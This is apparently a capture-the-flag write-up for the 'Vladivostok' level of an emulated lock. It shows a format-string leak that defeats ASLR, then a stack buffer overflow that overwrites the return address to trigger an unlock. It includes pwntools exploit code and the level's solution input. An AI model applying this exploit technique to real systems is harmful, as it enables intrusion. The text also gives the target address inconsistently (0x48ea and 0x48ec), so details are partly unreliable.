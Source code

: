 # Vladivostok
> sourse code [here](./dump.asm)  
> **Vulnerability**: stack buffer overflow  
> **Mitigation**: ASLR  

## Analysis
pseudo code for `main`, assembly code [here](./dump.asm)
```c
void main() {
    uint16_t base = (rand() & 0x7ffe) + 0x6000;
    uint16_t sp_base = rand();
    memcpy(base, 0x4400, 0x1000);           // 0x4400 = base of text section
    sp_base = (base - (sp_base & 0xffe)) + 0xff00;
    void (*func)(uint16_t) = base + 0x35c;
    sp = sp_base;       // rebase stack pointer
    func(base);         // call <func>
}
```

What the `<main>` does is actually just rebase both the text section and the stack pointer with a random number.

`memcpy` copy the entire section and thus, `func` is actually the same as `0x4400 + 0x35c = 0x475c`. Therefore, the program will jump to `0x475c` after rebasing the stack pointer and `0x475c` is the start of `<aslr_main>`.

pseudo code for `<aslr_main>`, assembly code [here](./dump.asm)
```c
void aslr_main(uint16_t base) {
    void (*func)() = base + 0x82;
    func();
}
```
`<aslr_main>` simply just call `base + 0x82` which will be the same as what is `@ 0x4482`, which is the start of `<_aslr_main>`.

### High Level Call Graph
```text
... -> <main> -> <aslr_main> -> <_aslr_main> -> ...
```
Also, the main logic of the program is in `<_aslr_main>`.

### `<_aslr_main>`
```c
void _aslr_main() {
    /* null out the original text section, 0x4400 */
    ...
    gets(username, 8);      // username @ 0x2426
    printf(username);       // vulnerable to Format String Vulnerability, able to leak address
    ...
    gets(password, 20);     // password on the stack, stack buffer overflow
    ...
    return;
}
```
The program null out the original text section. Therefore, we need a leak in order to find the address of the function we want to call.

`gets(username, 8)` has a strict restriction on the length of the input, which is 8 bytes, so it is impossible to use the *Format String Vulnerability* to setup for *directly* overwriting the return address. However, we can find that at the point of `printf(username)`, the stack is setup as follows:
```text
(pc = 0x9622)
> r sp
8976: 2624 0000 a897 0000 0000 b679 3e94 a297  &$.........y>...
8986: 7844 0000 0000 0000 0000 0000 0000 0000  xD..............
```
That is, `0x97a8` the address of `printf` after rebase is on the stack which can be leaked with the **2nd `%x`**.

Following is the assembly code related to get input for `password`:
```asm
4482:  0b12           push	r11
4484:  0a12           push	r10
4486:  3182           sub	#0x8, sp
...
4688:  0b41           mov	sp, r11 
468a:  2b52           add	#0x4, r11       ; r11 = sp + 4
468c:  3c40 1400      mov	#0x14, r12      ; r12 = 0x14
4690:  2d43           mov	#0x2, r13
4692:  0c12           push	r12
4694:  0b12           push	r11
4696:  0d12           push	r13
4698:  0012           push	pc
469a:  0212           push	sr
469c:  0f4d           mov	r13, r15
469e:  8f10           swpb	r15
46a0:  024f           mov	r15, sr
46a2:  32d0 0080      bis	#0x8000, sr
46a6:  b012 1000      call	#0x10           ; trigger interrupt
```
The return address is at `sp + 0xc` and the input starts at `sp + 4` with maximum `0x14` bytes of input. That is, with the padding of `8` bytes, the following 2 bytes will be able to overwrite the return address of `<_aslr_main>`.

### Where to jump to?
From the [assmebly](./dump.asm), we can find multiple places where it calls the interruption and all we need is to utilize one of them and trigger an unlock.

1. `0x4904` for `<INT>`
    To trigger `INT 0x7f`, `r15` is needed to be set to `0x7f`, which seems a bit impossible.
2. `0x48ea` for `<_INT>`
    To trigger the unlock, `sp + 2` needed to be set to `0x7f`. That is, pad 2 bytes after the return address and put `0x7f` right after it would be able to trigger.

Therefore, `password` should be `8` bytes of padding + return address, `0x48ea` after rebase + `2` bytes of padding + `0x7f`.

## Exploit
<details>
<summary>Simple script transfer to *hex*</summary>

```python
def b2hex(b):
    return ''.join(f'{c:02x}' for c in b)
```
</details>

1. leak using *Format String Vulnerability*
    - `printf` is called with the user input, `username` directly
    - therefore, it is vulnerable to *Format String Vulnerability*
    - leak the address of `printf`, at the 2nd argument, after rebase

    ```python
    username = b'%x||%x||'
    ```
    ```python
    In [26]: b2h(b'%x||%x||')
    Out[26]: '25787c7c25787c7c'
    ```
2. *Stack Buffer Overflow* to overwrite return address
    - 8 bytes of padding before the return address
    - calculate the offset with the leak to overwrite the return address
        - `0x48ec` is the address of `<_INT>`
        - `<_INT>` use `sp + 2` to determine which interrupt to call
    - setup the value 2 bytes after the return address to `0x7f` to trigger the unlock

    ```python
    password = b2h(b'a' * 8 + p16(leak - (0x476a - 0x48ec)) + b'b' * 2 + p16(0x7f)) 
    ```

```python
from pwn import *
username = b'%x||%x||'
leak = (address leak from the output of the program)
password = b'a' * 8 + p16(leak - (0x476a - 0x48ec)) + b'b' * 2 + p16(0x7f)
```

<!-- solution: {'level_id': 15, 'input': '25787c7c25787c7c;61616161616161617e8662627f00;'} (value might differ due to ASLR) -->
